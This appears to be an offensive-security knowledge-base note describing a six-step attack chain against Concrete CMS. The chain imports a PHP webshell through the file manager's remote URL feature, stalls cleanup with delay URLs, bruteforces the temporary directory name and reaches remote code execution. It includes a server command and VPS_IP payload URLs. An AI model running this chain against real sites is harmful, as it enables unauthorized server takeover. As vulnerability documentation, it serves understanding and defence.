

---
tags:
  - rce
  - file-upload
  - webshell
  - concrete-cms
  - php
type: attack_chain
tools:
  - '[[tools/Custom-Python-HTTP-Server]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/start-python-http-server]]'
  - '[[commands/convert-hex-timestamp-to-utc]]'
platforms:
  - Web
  - PHP
complexity: medium
procedures:
  - '[[procedures/Login-as-Administrator]]'
  - '[[procedures/Set-Up-Malicious-HTTP-Server]]'
  - '[[procedures/Import-Remote-Files-to-Trigger-Delay]]'
  - '[[procedures/Monitor-Import-Process-for-Timeout]]'
  - '[[procedures/Bruteforce-Temporary-Directory-Location]]'
  - '[[procedures/Access-Uploaded-Webshell-for-RCE]]'
step_count: 6
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Remote File Copy]]'
  - '[[Python]]'
description: >-
  Multi-stage exploit abusing Concrete CMS file manager's remote URL import to
  upload and execute a PHP webshell via predictable temporary directories and
  timeout delays.
skill_level: intermediate
impact_level: high
id: ecbd89c2-1894-49d9-ad93-a6ade9c142dc
created_at: '2025-12-14T17:23:28.039Z'
updated_at: '2025-12-14T17:23:28.039Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Remote File Copy]]'
  - '[[Python]]'
---
# Concrete CMS File Manager Remote Upload Bypass Leading to RCE

## Overview

This attack chain exploits a vulnerability in Concrete CMS's file manager, where remote URL imports lack proper file extension validation. By hosting a malicious PHP webshell on a controlled server and using delaying URLs to force a 120-second timeout, the uploaded file persists in a predictable temporary directory. Bruteforcing the directory name based on UTC timestamp allows access to the webshell, achieving remote code execution (RCE) with administrator privileges. The exploit targets the downloadRemoteURL function in concrete/controllers/backend/file.php, bypassing cleanup mechanisms in VolatileDirectory::__destruct.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Custom-Python-HTTP-Server]]

### Target Environment

- Concrete CMS installation (version vulnerable to this issue)
- Web server with PHP support
- Access to target via HTTP/HTTPS
- Administrator credentials for the CMS dashboard

### Initial Access Requirements

- Valid admin username and password
- Network access to the target's web interface
- Control over a remote VPS for hosting the malicious server

## Detailed Attack Procedures

### Step 1: Administrator Login
procedure: [[procedures/Login-as-Administrator]]

**Objective**: Gain access to the Concrete CMS dashboard with administrative privileges to reach the file manager.

**Instructions**: Navigate to the login page and enter administrator credentials. Upon successful login, access the dashboard.

**Expected Output**: Redirect to the admin dashboard interface.

**Success Indicators**:
- Dashboard loads without errors
- File manager section is accessible

### Step 2: Set Up Malicious HTTP Server
procedure: [[procedures/Set-Up-Malicious-HTTP-Server]]

**Objective**: Host the PHP webshell and delaying endpoints on a remote VPS to serve the payload and induce timeouts.

**Instructions**: On the VPS, create and run the custom Python server using [[commands/start-python-http-server]]:

```bash
python3 server.py --port 8877
```

This starts the server serving the webshell at /byc.php and delaying at /stuck.

**Expected Output**: "Server listening on port 8877" with request logs.

**Success Indicators**:
- Server logs show it's active
- Test access to http://VPS_IP:8877/byc.php returns PHP content

### Step 3: Import Remote Files to Trigger Delay
procedure: [[procedures/Import-Remote-Files-to-Trigger-Delay]]

**Objective**: Upload the malicious PHP file via remote URLs while using delays to prevent immediate cleanup.

**Instructions**: In the file manager ('Upload files' > 'Add files' > 'Remote files'), add one URL to the webshell (http://VPS_IP:8877/byc.php) and 20+ URLs to the delay endpoint (http://VPS_IP:8877/stuck). Initiate the import.

**Expected Output**: Import process starts, with server logs showing multiple requests.

**Success Indicators**:
- URLs accepted without validation errors
- Delay requests hit the server

### Step 4: Monitor Import Process for Timeout
procedure: [[procedures/Monitor-Import-Process-for-Timeout]]

**Objective**: Allow the import to exceed the 120-second execution limit, leaving the temp file uncleared.

**Instructions**: Wait approximately 120 seconds while monitoring the evil server logs for incoming requests. The process should error out due to timeout.

**Expected Output**: CMS returns a timeout error; server logs confirm all delay requests processed.

**Success Indicators**:
- Timeout error displayed in CMS
- No immediate cleanup observed

### Step 5: Bruteforce Temporary Directory Location
procedure: [[procedures/Bruteforce-Temporary-Directory-Location]]

**Objective**: Predict and locate the temporary directory using the timestamp-based uniqid() prefix.

**Instructions**: Note the approximate UTC time of import start. Use [[commands/convert-hex-timestamp-to-utc]] to verify timestamps, then bruteforce the temp folder (e.g., /application/files/) for directories like volatile-0-[prefix][suffix], trying 00000 to fffff for the last 5 hex chars.

```python
print(datetime.datetime.fromtimestamp(int('0x614daecb',16), tz=datetime.timezone.utc))
```

**Expected Output**: UTC timestamp matching import time; directory found containing byc.php.

**Success Indicators**:
- Directory located via bruteforce
- byc.php present in the directory

### Step 6: Access Uploaded Webshell for RCE
procedure: [[procedures/Access-Uploaded-Webshell-for-RCE]]

**Objective**: Execute the uploaded PHP webshell to achieve remote code execution.

**Instructions**: In a web browser, navigate to the full path of the webshell, e.g., http://target/application/files/volatile-0-[full_uniqid]/byc.php.

**Expected Output**: PHP execution, such as phpinfo() output in the PoC.

**Success Indicators**:
- Webshell loads and executes code
- RCE confirmed via command output

## Attack Chain Summary

### Key Achievements

1. Bypassed file extension validation in remote import
2. Exploited timeout to persist uploaded webshell
3. Achieved RCE via predictable temp directory bruteforce

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Remote File Copy]]
- [[Python]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01*
